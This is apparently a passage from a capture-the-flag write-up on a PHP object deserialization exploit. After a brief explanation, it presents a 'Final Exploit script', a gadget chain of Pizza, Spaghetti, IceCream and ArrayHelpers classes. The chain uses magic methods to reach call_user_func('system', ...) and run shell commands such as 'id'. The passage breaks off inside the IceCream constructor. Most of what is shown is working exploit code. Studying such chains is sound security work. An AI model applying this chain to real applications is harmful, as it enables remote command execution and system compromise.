 2. Connection to ArrayHelpers
    - `$flavors` is assigned an ArrayHelpers object initialized with an array of commands `(["id"])`.
    - During each iteration, current() is called, executing system($value).

---

##### The Final Exploit script

```php
namespace Helpers{
    use \ArrayIterator;

    class ArrayHelpers extends ArrayIterator
    {
        public $callback = "system";  // Set callback to "system"

        public function current()
        {
            $value = parent::current();  // Fetch the current value
            echo $value."\n";           
            echo $this->callback."\n";  
            call_user_func($this->callback, $value);  // Executes system($value)
            return $value;
        }
    }
}

namespace{
    class Spaghetti
    {
        public $sauce;

        public function __construct()
        {
            echo "I am a spaghetti\n";
            echo "Payload is: \n";
            $this->sauce = new IceCream();  // Assigns an IceCream object to $sauce
        }

        public function __get($tomato)
        {
            ($this->sauce)();  // Triggers IceCream's __invoke()
        }
    }

    class Pizza
    {
        public function __construct()
        {   
            $this->size = new Spaghetti();  // Assigns a Spaghetti object to $size
            $this->price = "testtest";
            $this->cheese = "Y";        
        }

        public function __destruct()
        {
            echo $this->size->what;  // Triggers Spaghetti's __get($tomato)
        }
    }

    class IceCream
    {
        public $flavors;

        public function __construct()
```